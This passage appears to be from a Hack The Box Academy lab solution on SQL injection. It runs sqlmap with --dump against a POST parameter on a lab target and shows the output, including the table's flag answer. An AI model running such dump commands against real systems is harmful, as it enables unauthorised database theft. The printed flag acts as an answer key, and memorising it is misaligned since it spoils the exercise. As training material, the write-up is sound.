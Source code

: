 ### "What's the fastest SQLi type?"

The fastest SQLi type is those that are `UNION query-based`:

![[HTB Solutions/CPTS/z. images/dca044fdc44b5959b3c02252508f020d_MD5.webp]]

Answer: `UNION query-based`

# Running SQLMap on an HTTP Request

## Question 1

### "What's the contents of table flag2? (Case #2)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #2":

![[HTB Solutions/CPTS/z. images/7f2e768618cd213b598c808c99555885_MD5.jpg]]

Students will notice that they need to exploit the SQLi in the `id` `POST` parameter:

![[HTB Solutions/CPTS/z. images/31bdc92a81dd0529c500a4d3bc205631_MD5.jpg]]

Thus, the `sqlmap` command will be as follows:

Code: shell

```shell
sqlmap -u 'http://STMIP:STMPO/case2.php' --data 'id=1' --batch --dump
```

```
┌─[us-academy-1]─[10.10.14.25]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u "http://188.166.168.88:31227/case2.php" --data 'id=1' --batch --dump

        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.5.9#stable}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

<SNIP>

Database: testdb
Table: flag2
[1 entry]
+----+----------------------------------------+
| id | content                                |
+----+----------------------------------------+
| 1  | HTB{700_much_c0n6r475_0n_p057_r3qu357} |
+----+----------------------------------------+

[19:27:11] [INFO] table 'testdb.flag2' dumped to CSV file '/home/htb-ac413848/.local/share/sqlmap/output/188.166.168.88/dump/testdb/flag2.csv'
[19:27:11] [INFO] fetched data logged to text files under '/home/htb-ac413848/.local/share/sqlmap/output/188.166.168.88'
[19:27:11] [WARNING] your sqlmap version is outdated

[*] ending @ 19:27:11 /2022-07-14/
```
